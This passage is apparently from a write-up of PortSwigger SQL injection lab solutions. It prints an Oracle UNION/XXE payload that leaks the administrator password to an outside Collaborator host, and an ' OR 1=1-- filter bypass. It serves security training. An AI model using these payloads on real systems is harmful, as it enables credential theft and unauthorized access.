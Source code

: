 
### Quick Solution
This lab contains a blind SQL Injection vulnerability that has **no effect on the application's response**. For this reason an out-of-band interaction with an external domain must be triggered. I tried to use the ``--dns-domain`` option of ``sqlmap`` but it doesn't seems to work. That's probably because of my machine setup (Burp on WSL2 and sqlmap dockerized). For this lab skip to the solution.


### Solution
1. Visit the front page of the shop, and use Burp Suite Professional to intercept and modify the request containing the ``TrackingId`` cookie.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Modify the ``TrackingId`` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows: 
```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.
```
5. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
6. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the ``administrator`` user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
7. In your browser, click "My account" to open the login page. Use the password to log in as the ``administrator`` user.

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
### Reference: [PortSwigger: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/in-band/lab-retrieve-hidden-data)


### Quick Solution
In this lab the payload is quite easy, the goal is to retrieve hidden items. See next section for the solution.


### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the ``category`` parameter, giving it the value ``'+OR+1=1--``
3. Submit the request, and verify that the response now contains additional items.
